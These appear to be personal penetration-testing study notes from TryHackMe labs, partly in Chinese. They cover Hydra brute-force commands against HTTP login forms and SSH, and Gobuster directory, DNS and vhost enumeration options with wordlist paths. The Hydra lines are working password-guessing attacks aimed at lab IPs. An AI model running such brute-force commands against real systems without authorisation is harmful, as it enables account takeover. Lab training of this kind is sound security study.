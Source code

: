 	--> sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.212.103 http-post-form "/login:username=^USER^&password=^PASS^:incorrect" -f 

	--> hydra -t 4 -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.212.103
	
	--> sudo hydra -s 8080 -l admin -P /usr/share/wordlists/rockyou.txt 10.10.173.192 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=Sign+in:Invalid username or password" -f 

## Web Enumeration : 
	--> https://tryhackme.com/r/room/webenumerationv2
		--> 手動枚舉 :
			--> Viewing page source code
			--> Finding assets
			--> 在客戶端（我們的瀏覽器）調試和執行 JavaScript 等程式碼
			
			--> F12 : Inspecting Tool
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
		--> Gobuster : 
			--> normal :
				--> -t 線程（預設10）=> 更改為 64 以提高掃描速度
				--> -v 詳細 
				--> -z 不顯示進度
				--> -q 安靜的
				--> -o 輸出
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			--> dir mode : 允許使用者列舉網站目錄
				--> -w 單字清單 : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
				--> -x // --extension : 副檔名
				
				--> other: 
					--> https://github.com/OJ/gobuster#dir-mode-options
					--> -c cookies | -U 使用者名稱 | -s狀態代碼
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
			--> dns mode : 暴力破解子域
				--> -d 新增網域
				--> -w 單字清單 
				--> gobuster dns 
					=> -d mydomain.thm 
					=> -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
				--> other :
					--> -C cname | -i show-ips | -r	resolver
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~		
			--> vhost Mode : 暴力破解虛擬主機
				--> gobuster vhost 
					=> -u http://example.com 
					=> -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			--> commond 單字表
				--> /usr/share/wordlists/dirbuster/directory-list-2.3-*.txt
				--> /usr/share/wordlists/dirbuster/directory-list-1.0.txt
				--> /usr/share/wordlists/dirb/big.txt
				--> /usr/share/wordlists/dirb/common.txt
				--> /usr/share/wordlists/dirb/small.txt
				--> /usr/share/wordlists/dirb/extensions_common.txt
				